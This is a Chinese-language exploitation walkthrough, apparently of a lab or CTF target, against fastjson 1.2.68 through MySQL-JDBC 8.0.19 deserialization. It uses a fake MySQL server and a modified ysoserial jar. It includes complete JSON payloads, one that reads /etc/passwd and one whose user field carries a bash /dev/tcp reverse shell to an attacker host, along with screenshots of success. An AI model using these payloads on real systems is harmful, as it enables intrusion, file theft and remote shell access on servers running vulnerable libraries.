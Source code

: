 首先判断fastjson版本，1.2.68

![img](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693361708315-5641ad48-7545-46d7-8836-8aac4e7122db.png)

看到在这个大版本下，首先的思路肯定是考虑文件写操作，就需要判断是否为JDK11或者存在commons-io等其他文件写入的依赖，但是该环境下都是不存在的。

![img](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693361898043-07523d31-a2f9-4f7e-8b6c-e907a062660d.png)

除了文件写操作，还有一个利用更加简单且直接rce的方法：配合Mysql-JDBC反序列化打fastjson。

要求环境中存在JDBC的依赖，且对版本的要求也挺严格。 Mysql-JDBC在5、6、8下都存在相应的利用，所以就需要探测具体是什么版本。详细利用参考：[Fastjson全版本检测及利用-Poc](Fastjson全版本检测及利用-Poc.md#mysql-jdbc反序列化)

![img](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693362502101-139f1c17-3dfc-464f-af32-6e35f25761fe.png)

显然这里使用的是mysql-connect-8.x

![img](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693362513255-38abb596-43a1-4003-8253-8a61e9c2c013.png)

可是对于mysql-connect的版本为8下限制条件很大，只有一个版本可用：8.0.19

恰好环境是使用的8.0.19:

![img](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693362734906-ce1f0b9f-ea59-437e-a1e1-67a02325259c.png)

那就好说了，先启动mysql-fake-server,用这个工具：https://github.com/fnmsd/MySQL_Fake_Server

`python3 server.py`启动mysql-fake-server：

先读文件测试漏洞是否可行：

```json
{
    "@type": "java.lang.AutoCloseable",
    "@type": "com.mysql.cj.jdbc.ha.ReplicationMySQLConnection",
    "proxy": {
        "@type": "com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy",
        "connectionUrl": {
            "@type": "com.mysql.cj.conf.url.ReplicationConnectionUrl",
            "masters": [
                {
                    "host": "10.30.0.84"
                }
            ],
            "slaves": [],
            "properties": {
                "host": "10.30.0.84",
                "user": "fileread_/etc/passwd",
                "dbname": "dbname",
                "password": "pass",
                "queryInterceptors": "com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor",
                "autoDeserialize": "true",
                "allowLoadLocalInfile": "true"
            }
        }
    }
}
```

成功！看来是可用的

![img](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693363092287-d7b4a218-c63d-442a-9ac3-5b530f5ac1de.png)

后面就是反序列化了。

反序列化的话因为在之前说过，fastjson在全版本都存在原生反序列化，且环境依赖中并不存在其他的组件，看来只能配合原生反序列化了。

这里的话因为mysql-fake-server调用反序列化模块的原理是需要我们传入ysoserial工具然后执行命令获取数据并发送，但是在本身的ysoserial工具中并没有加入fastjson这条链的payload，所以需要在ysoserial中加入fastjson这条链。

这里是我添加FastJson1链后重新编译的ysoserial： [ysoserial-0.0.6-SNAPSHOT-all.jar](https://bolean.yuque.com/attachments/yuque/0/2023/jar/26045928/1693374838342-b00b08b7-3154-4424-baa9-90d8f68e5258.jar)

![img](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693375003333-f6be335c-9239-49fc-9baa-08d856bf804e.png)

上传到与server.py同目录即可读取。

发送数据：

```json
{
    "@type": "java.lang.AutoCloseable",
    "@type": "com.mysql.cj.jdbc.ha.ReplicationMySQLConnection",
    "proxy": {
        "@type": "com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy",
        "connectionUrl": {
            "@type": "com.mysql.cj.conf.url.ReplicationConnectionUrl",
            "masters": [
                {
                    "host": "10.30.0.84"
                }
            ],
            "slaves": [],
            "properties": {
                "host": "10.30.0.84",
                "user": "yso_FastJson1_bash -i >& /dev/tcp/10.30.0.84/9999 0>&1",
                "dbname": "dbname",
                "password": "pass",
                "queryInterceptors": "com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor",
                "autoDeserialize": "true",
                "allowLoadLocalInfile": "true"
            }
        }
    }
}
```

![img](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693375349280-fcab912e-be6e-45dc-86cc-60a0be13a3ec.png)

反弹shell成功：

![image-20231021202442210](C:\Users\Hui\AppData\Roaming\Typora\typora-user-images\image-20231021202442210.png)